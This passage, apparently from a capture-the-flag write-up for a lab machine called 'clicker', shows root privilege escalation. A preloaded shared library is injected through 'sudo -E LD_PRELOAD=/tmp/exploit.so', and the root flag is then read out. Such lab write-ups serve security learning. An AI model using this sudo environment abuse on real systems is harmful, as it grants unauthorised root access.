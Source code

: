 We can now use the following command to make use of the payload:
```
jack@clicker:/opt$ sudo -E LD_PRELOAD=/tmp/exploit.so ./monitor.sh 
root@clicker:/opt# id
uid=0(root) gid=0(root) groups=0(root)
root@clicker:/opt# 
```

### Root flag
We can now read out the root flag and finish this machine:
```
root@clicker:/opt# cat /root/root.txt 
a313410c5cadf4e2ca2e338b87afd39c
root@clicker:/opt# 
```